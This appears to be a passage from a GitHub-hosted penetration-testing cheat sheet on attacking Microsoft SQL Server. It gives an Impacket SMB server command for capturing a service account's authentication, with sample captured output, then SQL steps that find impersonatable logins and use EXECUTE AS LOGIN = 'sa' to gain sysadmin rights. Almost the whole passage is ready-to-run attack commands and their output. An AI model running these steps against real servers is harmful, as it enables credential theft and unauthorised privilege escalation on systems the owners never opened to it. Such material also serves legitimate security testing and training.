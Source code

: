 #### Impacket SMB Server
```bash
# Alternative capture method
sudo impacket-smbserver share ./ -smb2support

# Captured authentication details
[*] AUTHENTICATE_MESSAGE (WINSRV02\mssqlsvc,WINSRV02)
[*] User WINSRV02\mssqlsvc authenticated successfully
```

---

## 👤 Privilege Escalation

### 1. User Impersonation

#### Identify Impersonatable Users
```sql
-- Find users we can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO

-- Example output
name
-----------------------------------------------
sa
ben
valentin
```

#### Check Current Privileges
```sql
-- Verify current user and role
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO

-- Output: 0 = not sysadmin, 1 = sysadmin
```

#### Impersonate Higher Privileged User
```sql
-- Impersonate SA user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO

-- Now shows sysadmin privileges (1)

-- Revert to original user
REVERT
```

---